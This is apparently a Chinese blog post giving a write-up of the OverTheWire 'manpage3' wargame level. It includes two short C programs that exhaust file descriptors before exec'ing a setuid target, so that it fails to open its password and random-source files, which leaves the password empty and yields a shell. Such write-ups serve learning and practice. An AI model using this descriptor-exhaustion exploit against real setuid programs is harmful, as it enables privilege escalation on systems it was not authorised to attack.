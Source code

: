 ```yaml
---
title: manpage3
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

还是那个道理，打开的file descriptor会经过exec保存下来。我最开始的想法是，打开很多文件，然后执行manpage3，那么读密码那里就读空，因为密码文件打不开了 

{% highlight c %}
#include <unistd.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main (int argc, char *args[]) {
    int i;
    for(i=4; i<1024; ++i)
        open("./do.c", O_RDONLY);
    execl("./manpage3", "./manpage3", NULL);
}
{% endhighlight %}

这里上限1024是从`ulimit -n`得到的

在我的机子上这样是可以的，但在主机那里就不行了……

然后用同样的思路执行manpage-reset，使得urandom打不开。这样的话程序会崩溃，但密码文件是&#8221;w&#8221;打开，offset还在文件起始处，所以什么都没写就关闭了 

{% highlight c %}
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main (int argc, char *args[]) {
    int i;
    FILE *fp;
    for(i=4; i<1024; ++i)
        fp = fopen("/manpage/manpage3", "r");
    execl("/manpage/manpage3-reset", "/manpage/manpage3", NULL);
}
{% endhighlight %}

之后再执行manpage3，密码为空，得到shell